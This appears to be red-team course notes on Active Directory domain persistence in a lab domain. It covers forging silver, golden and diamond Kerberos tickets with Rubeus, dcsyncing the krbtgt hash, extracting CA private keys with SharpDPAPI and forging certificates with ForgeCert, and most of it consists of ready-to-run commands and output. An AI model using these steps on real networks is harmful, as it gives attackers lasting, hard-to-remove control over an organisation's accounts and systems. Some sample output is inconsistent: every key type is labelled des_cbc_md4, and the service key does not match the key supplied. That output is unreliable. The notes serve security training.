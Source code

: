 # Domain Dominance 

Once an attacker achieves a very high level of privilege in the domain, such as Domain or Enterprise Admin, it's very difficult for a defending organisation to recover or even consider the forest as "clean" again.  Attackers with this access can extract credential material from the domain and use it to re-obtain DA-level access at any time.  The majority of these credentials are never changed, which grants practically unlimited access.

If you've ever seen this joke before, well… it's true.

"Keep calm and rebuild the forest"

# Silver Tickets

A "silver ticket" is a forged service ticket, signed using the secret material (RC4/AES keys) of a computer account.  You may forge a TGS for any user to any service on that machine, which is useful for short/medium-term persistence.  By default, computer passwords change every 30 days, at which time you must re-obtain the new secrets to continue making silver tickets.  Both silver and golden (coming up next) tickets are forged, so can be generated on your own machine and imported into your Beacon session for use.
Let's say we dumped Kerberos keys from Workstation 1 from a SYSTEM Beacon.
    
    Session           : Service from 0
    User Name         : WKSTN-1$
    Domain            : DEV
    Logon Server      : (null)
    Logon Time        : 10/17/2023 10:31:24 AM
    SID               : S-1-5-20
    
    	 * Username : wkstn-1$
    	 * Domain   : DEV.CYBERBOTIC.IO
    	 * Password : (null)
    	 * Key List :
    	   des_cbc_md4       3ad3ca5c512dd138e3917b0848ed09399c4bbe19e83efe661649aa3adf2cb98f
    	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
    	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
    	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
    	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448
    	   des_cbc_md4       5192c07ee06e9264f0a7d7af5e645448

On your Windows attacking machine, use Rubeus to forge a service ticket for nlamb and the CIFS service.

    PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /service:cifs/wkstn-1.dev.cyberbotic.io /aes256:3ad3ca5c512dd138e3917b0848ed09399c4bbe19e83efe661649aa3adf2cb98f /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

    [*] Action: Build TGS
    
    [*] Building PAC
    
    [*] Domain         : DEV.CYBERBOTIC.IO (DEV)
    [*] SID            : S-1-5-21-569305411-121244042-2357301523
    [*] UserId         : 500
    [*] Groups         : 520,512,513,519,518
    [*] ServiceKey     : C9E598CD2A9B08FE31936F2C1846A8365D85147F75B8000CBC90E3C9DE50FCC7
    [*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
    [*] KDCKey         : C9E598CD2A9B08FE31936F2C1846A8365D85147F75B8000CBC90E3C9DE50FCC7
    [*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
    [*] Service        : cifs
    [*] Target         : wkstn-1.dev.cyberbotic.io
    
    [*] Generating EncTicketPart
    [*] Signing PAC
    [*] Encrypting EncTicketPart
    [*] Generating Ticket
    [*] Generated KERB-CRED
    [*] Forged a TGS for 'nlamb' to 'cifs/wkstn-1.dev.cyberbotic.io'
    
    [*] AuthTime       : 9/9/2022 10:49:41 AM
    [*] StartTime      : 9/9/2022 10:49:41 AM
    [*] EndTime        : 9/9/2022 8:49:41 PM
    [*] RenewTill      : 9/16/2022 10:49:41 AM
    
    [*] base64(ticket.kirbi):
    
          doIFXD[...]MuaW8=

Then import the ticket.

    getuid
    [*] You are DEV\bfarmer (admin)
    
    ls \\wkstn-1.dev.cyberbotic.io\c$

    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFXD[...]MuaW8=

    steal_token 5668
    
    ls \\wkstn-1.dev.cyberbotic.io\c$

Here are some useful ticket combinations:

| Technique | Required Service Tickets |
|---|---|
| psexec | HOST & CIFS |   
| winrm | HOST & HTTP |  
| dcsync (DCs only) | LDAP |  

# Golden Tickets

A "golden ticket" is a forged TGT, signed by the domain's krbtgt account.  Where a silver ticket can be used to impersonate any user, it's limited to either that single service or to any service but on a single machine.  A golden ticket can be used to impersonate any user, to any service, on any machine in the domain; and to add insult to injury - the underlying credentials are never changed automatically.  For that reason, the krbtgt NTLM/AES hash is probably the single most powerful secret you can obtain (and is why you see it used in dcsync examples so frequently).
A common method for obtaining the krbtgt hash is to use dcsync from the context of a domain admin.

    dcsync dev.cyberbotic.io DEV\krbtgt

The ticket can be forged offline using Rubeus.

    PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /aes256:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /user:nlamb /domain:dev.cyberbotic.io /sid:S-1-5-21-569305411-121244042-2357301523 /nowrap

And then imported into a logon session to use.

    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe createnetonly /program:C:\Windows\System32\cmd.exe /domain:DEV /username:nlamb /password:FakePass /ticket:doIFLz[...snip...]MuaW8=

    steal_token 5060
    run klist

    ls \\dc-2.dev.cyberbotic.io\c$

# Diamond Tickets

Like a golden ticket, a diamond ticket is a TGT which can be used to access any service as any user.  A golden ticket is forged completely offline, encrypted with the krbtgt hash of that domain, and then passed into a logon session for use.  Because domain controllers don't track TGTs it (or they) have legitimately issued, they will happily accept TGTs that are encrypted with its own krbtgt hash.
Therefore, a possible tactic to detect the use of golden tickets is to look for TGS-REQs that have no corresponding AS-REQ.  A "diamond ticket" is made by modifying the fields of a legitimate TGT that was issued by a DC.  This is achieved by requesting a TGT, decrypting it with the domain's krbtgt hash, modifying the desired fields of the ticket, then re-encrypting it.  This overcomes the aforementioned shortcoming of a golden ticket because any TGS-REQs will have a preceding AS-REQ.
First, we prove we have no access to the DC.

    getuid
    [*] You are DEV\bfarmer

    ls \\dc-2.dev.cyberbotic.io\c$

Diamond tickets can be created with Rubeus.    
    
    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe diamond /tgtdeleg /ticketuser:nlamb /ticketuserid:1106 /groups:512 /krbkey:51d7f328ade26e9f785fd7eee191265ebc87c01a4790a7f38fb52e06563d4e7e /nowrap

where:

    /tgtdeleg uses the Kerberos GSS-API to obtain a useable TGT for the current user without needing to know their password, NTLM/AES hash, or elevation on the host.
    /ticketuser is the username of the user to impersonate.
    /ticketuserid is the domain RID of that user.
    /groups are the desired group RIDs (512 being Domain Admins).
    /krbkey is the krbtgt AES256 hash.

Rubeus describe will now show that this is a TGT for the target user.

    PS C:\Users\Attacker> C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe describe /ticket:doIFYj[...snip...]MuSU8=

# Forged Certificates

In larger organisations, the AD CS roles are installed on separate servers and not on the domain controllers themselves.  Often times, they are also not treated with the same sensitivity as DCs.  So, whereas only EAs and DAs can access/manage DCs, "lower level" roles such as server admins can access the CAs.  Although this can be seen a privilege escalation, it's just as useful as a domain persistence method.
Gaining local admin access to a CA allows an attacker to extract the CA private key, which can be used to sign a forged certificate (think of this like the krbtgt hash being able to sign a forged TGT).  The default validity period for a CA private key is 5 years, but this can be set to any value during setup, sometimes as high as 10+ years.
Once on a CA, SharpDPAPI can extract the private keys.

    run hostname
    getuid
    
    execute-assembly C:\Tools\SharpDPAPI\SharpDPAPI\bin\Release\SharpDPAPI.exe certificates /machine

Save the private key and certificate to a .pem file and convert it to a .pfx with openssl.  Then, build the forged certificate with ForgeCert.

    PS C:\Users\Attacker> C:\Tools\ForgeCert\ForgeCert\bin\Release\ForgeCert.exe --CaCertPath .\Desktop\sub-ca.pfx --CaCertPassword pass123 --Subject "CN=User" --SubjectAltName "nlamb@cyberbotic.io" --NewCertPath .\Desktop\fake.pfx --NewCertPassword pass123

Even though you can specify any SubjectAltName, the user does need to be present in AD.  We can now use Rubeus to request a legitimate TGT with this forged certificate.

    execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:nlamb /domain:dev.cyberbotic.io /enctype:aes256 /certificate:MIACAQ[...snip...]IEAAAA /password:pass123 /nowrap

We're not limited to forging user certificates; we can do the same for machines.  Combine this with the S4U2self trick to gain access to any machine or service in the domain.












































